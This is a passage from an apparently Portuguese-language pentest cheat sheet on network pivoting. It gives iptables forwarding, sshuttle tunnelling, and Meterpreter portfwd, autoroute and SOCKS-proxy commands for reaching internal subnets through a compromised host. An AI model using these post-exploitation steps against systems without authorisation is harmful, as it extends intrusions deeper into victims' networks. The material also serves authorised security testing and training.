 Ativando o forwarding do lado do servidor

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
iptables -t nat -A POSTROUTING -s 1.1.1.2 -o eth0 -j MASQUERADE
```

Defina uma nova rota do lado do cliente

```text
route add -net 10.0.0.0/16 gw 1.1.1.1
```

## SSHUTTLE

Você pode **tunelar** via **ssh** todo o **tráfego** para uma **sub-rede** por meio de um host.
Exemplo, tunelando todo o tráfego que vai para 10.10.10.0/24

```bash
pip install sshuttle
sshuttle -r user@host 10.10.10.10/24
```

## Meterpreter

### Port2Port

Porta Local -> Host comprometido \(sessão ativa\) -> Terceira_maquina:Porta

```bash
# Inside a meterpreter session
portfwd add -l <porta_do_atacante> -p <porta_remota> -r <host_remoto>
```

### Port2hostnet \(proxychains\)

```bash
background# meterpreter session
route add <ip_vitima> <máscara_de_rede> <sessão> # (ex: route add 10.10.10.14 255.255.255.0 8)
use auxiliary/server/socks_proxy
run #Proxy port 1080 by default
echo "socks4 127.0.0.1 1080" > /etc/proxychains.conf #Proxychains
```

Outra forma:

```bash
background #meterpreter session
use post/multi/manage/autoroute
set SESSION <session_n>
set SUBNET <New_net_ip> #Ex: set SUBNET 10.1.13.0
set NETMASK <Netmask>
run
use auxiliary/server/socks_proxy
set VERSION 4a
run #Proxy port 1080 by default
echo "socks4 127.0.0.1 1080" > /etc/proxychains.conf #Proxychains
```
